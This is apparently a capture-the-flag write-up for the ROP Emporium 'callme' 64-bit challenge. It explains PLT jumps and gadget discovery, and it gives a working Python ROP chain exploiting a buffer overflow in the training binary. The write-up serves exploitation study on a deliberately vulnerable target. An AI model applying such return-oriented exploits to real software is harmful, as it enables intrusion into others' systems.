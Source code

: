 # callme-64 bit

and so we begin the third challange of ROP Emporium.   
we are presented with an important message.  
![start](https://user-images.githubusercontent.com/60041914/78276174-58a50d00-751b-11ea-8c5d-b72c9eeff5f9.png)

and so we read them.(https://ropemporium.com/challenge/callme.html)  
"You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g."    
    
ok. calling the functions will not suffice this time.  
the return address will be pushed on to the stack and our ROP chain will be ruined.  
    
what we can do instead is jump to the PLT.
(if you are not already farmiliar with the PLT you should read Appendix A in https://ropemporium.com/guide.html)  
![calls](https://user-images.githubusercontent.com/60041914/78276181-59d63a00-751b-11ea-8a8b-93292e80e4ee.png)
  
 we need to find gadgets that allow us to control rdi,rsi and rdx to change the parameters.   
    
 running ROPgadget we get:   
 ```nasm
 0x0000000000401ab0 : pop rdi, pop rsi, pop rdx, ret
 ```
 we can write a ROP chain based on that.   
 ```python
 SET_PARAMS=0x00401ab0

CALLME_ONE=0x00401850
CALLME_TWO=0x00401870
CALLME_THREE=0x00401810

exploit=b'A'*40
exploit+=p64(SET_PARAMS)
exploit+=p64(0x1) # rdi
exploit+=p64(0x2) # rsi
exploit+=p64(0x3) # rdx
exploit+=p64(CALLME_ONE)
exploit+=p64(SET_PARAMS)
exploit+=p64(0x1) # rdi
exploit+=p64(0x2) # rsi
exploit+=p64(0x3) # rdx
exploit+=p64(CALLME_TWO)
exploit+=p64(SET_PARAMS)
exploit+=p64(0x1) # rdi
exploit+=p64(0x2) # rsi
exploit+=p64(0x3) # rdx
exploit+=p64(CALLME_THREE)
 ```
   
   
![pwned](https://user-images.githubusercontent.com/60041914/78276186-5b076700-751b-11ea-9daf-527c00681303.png)
